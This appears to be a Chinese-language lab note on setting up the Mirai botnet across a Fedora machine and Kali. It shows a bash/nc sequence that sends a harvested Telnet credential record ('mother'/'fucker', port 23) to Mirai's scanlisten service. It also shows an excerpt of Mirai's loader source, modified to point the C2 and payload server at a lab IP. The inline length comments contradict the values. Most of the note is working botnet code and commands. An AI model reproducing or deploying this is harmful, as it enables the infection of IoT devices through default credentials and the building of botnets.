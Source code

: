 ## scanlisten 接受凭据

目前这里是手动实现的，在首台运行 mirai 的 fedora 机器上：

```bash
printf "\\x00" > data.bin # zero
printf "\\xc0\\xa8\\x3b\\x81" >> data.bin
printf "\\x00\\x17" >> data.bin # 23
printf "\\x06" >> data.bin # username_len = 4
printf "mother" >> data.bin # username
printf "\\x06" >> data.bin # password_len = 5
printf "fucker" >> data.bin # password

nc -t 192.168.49.148 48101 < data.bin
```

就可以在 kali 的 scanlisten 上接收到消息：
![Pasted image 20250513004509.png](./Pasted%20image%2020250513004509.png)

## loader 感染

### 需要修改的代码

```c
// loader/src/main.c
#ifdef DEBUG
  addrs_len = 1;
  addrs = calloc(4, sizeof(ipv4_t));
  addrs[0] = inet_addr("192.168.59.148");
#else

  printf("start init server\n");
  if ((srv = server_create(sysconf(_SC_NPROCESSORS_ONLN), addrs_len, addrs,
                           1024 * 64, "192.168.59.148", 80,
                           "192.168.59.148")) == NULL) {
    printf("Failed to initialize server. Aborting\n");
    return 1;
  }
  printf("before thread create\n");
  pthread_create(&stats_thrd, NULL, stats_thread, NULL);
  printf("thread created!");
  // Read from stdin
```
